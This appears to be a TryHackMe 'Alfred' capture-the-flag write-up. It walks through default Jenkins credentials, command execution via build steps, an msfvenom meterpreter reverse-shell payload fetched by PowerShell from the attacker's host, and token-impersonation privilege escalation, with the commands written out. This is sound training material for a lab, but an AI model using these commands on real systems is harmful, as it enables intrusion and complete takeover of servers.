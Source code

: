 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![]("../main/img/Pasted image 20210827190250.png")

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![](/img/Pasted image 20210827190250.png)

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![](/img/Pasted image 20210828114210.png)

Then just running "met.exe" using the same misconfiguration.

# User flag
![](/img/Pasted image 20210828115051.png)

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![](/img/Pasted image 20210828115240.png)

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![](img/Pasted image 20210828115908.png)
(if shell commands dont work then migrate to a system process).

# Root flag
![](/img/Pasted image 20210828120047.png)
